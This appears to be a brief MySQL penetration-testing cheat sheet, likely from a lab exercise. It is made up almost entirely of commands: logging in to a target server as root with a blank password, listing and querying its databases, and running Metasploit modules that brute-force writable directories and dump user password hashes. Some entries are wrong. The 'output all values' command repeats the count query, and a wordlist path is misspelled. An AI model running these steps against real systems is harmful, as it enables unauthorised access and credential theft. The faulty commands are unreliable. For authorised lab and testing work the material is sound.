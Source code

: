 #### Tools
nmap
msfconsole

#### Commands

Connect to mysql server
```
mysql -h target_ip -u root
```

List databse in MySQL Server
```
show databases;
```

Use database
```
use database_name; 
```

Output number of values in database
```
select count(*) from database_name
```

Output all values of authors database
```
select count(*) from database_name; 
```

Get help from mysql
```
help
```

Brute force writeable directories of mysql
```
msfconsole 
use auxiliary/scanner/mysql/mysql_writable_dirs
set dir_list /usr/shrae/metasploit-framework/data/wordlists/directory.txt
setg rhosts target_ip
set verbose false
set username root
advanced
set password ""
run
```

Get hashes of users
```
msfconsole 
use auxiliary/scanner/mysql/mysql_hashdump
options
set username root
set password ""
options
run
```
